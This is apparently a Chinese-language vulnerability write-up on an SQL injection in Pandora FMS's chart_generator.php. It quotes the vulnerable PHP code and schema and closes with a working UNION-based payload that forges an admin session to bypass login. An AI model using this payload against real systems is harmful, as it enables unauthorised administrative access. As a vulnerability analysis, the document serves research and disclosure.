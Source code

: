 ## 漏洞产生原因

`include/chart_generator.php`中的`user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);`直接使用了用户输入的数据

`include/lib/User.php`

```php
public function __construct($data) {
    global $config;
    // Unset user.
    unset($config['id_usuario']);
    unset($_SESSION['id_usuario']);
    if (is_array($data) === true) {
        if (isset($data['phpsessionid']) === true) {
            $this->sessions[$data['phpsessionid']] = 1;
            $info = db_get_row_filter('tsessions_php', ['id_session' => $data['phpsessionid']]);
            if ($info !== false) {
                // Process.
                $session_data = session_decode($info['data']);
                $this->idUser = $_SESSION['id_usuario'];
                // Valid session.
                return $this;
            }
            return null;
        }
        if (isset($data['id_usuario']) === true && isset($data['password']) === true) {
            $user_in_db = process_user_login($user, $password, true);
            if ($user_in_db !== false) {
                $config['id_usuario'] = $user_in_db;
                $correctLogin = true;
                // Originally at api.php.
                if (session_status() === PHP_SESSION_NONE) {
                    session_start();
                }
                $_SESSION['id_usuario'] = $user;
                session_write_close();
                $this->idUser = $data['id_usuario'];
                // Valid session.
                return $this;
            }
        }
    }
    return null;
}
```

`include/db/mysql.php`直接将`$filter`即`$_REQUEST['session_id']`进行数据分拆后拼接到sql语句中`$sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);`

```php
function mysql_db_get_row_filter($table, $filter, $fields=false, $where_join='AND', $historydb=false)
{
    if (empty($fields)) {
        $fields = '*';
    } else {
        if (is_array($fields)) {
            $fields = implode(',', $fields);
        } else if (! is_string($fields)) {
            return false;
        }
    }

    if (is_array($filter)) {
        $filter = db_format_array_where_clause_sql($filter, $where_join, ' WHERE ');
    } else if (is_string($filter)) {
        $filter = 'WHERE '.$filter;
    } else {
        $filter = '';
    }

    $sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);

    return db_get_row_sql($sql, $historydb);
}
```

利用这个sql注入漏洞,可以返回伪造的数据,进而在`session_decode`后伪造`$_SERSSION`变量并用于假冒用户登录

```php
if ($info !== false) {
    // Process.
    $session_data = session_decode($info['data']);
    $this->idUser = $_SESSION['id_usuario'];
    // Valid session.
    return $this;
}
```

[pandora_console/pandoradb.sql](https://github.com/pandorafms/pandorafms/blob/953aa2887c53e6348276844ec63c25a4f8420571/pandora_console/pandoradb.sql)

```sql
CREATE TABLE IF NOT EXISTS `tsessions_php` (
  `id_session` CHAR(52) NOT NULL,
  `last_active` INT NOT NULL,
  `data` TEXT,
  PRIMARY KEY (`id_session`)
)ENGINE=InnoDB DEFAULT CHARSET=UTF8MB4;
```

payload

```
pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data--+
```

>todo

xdebug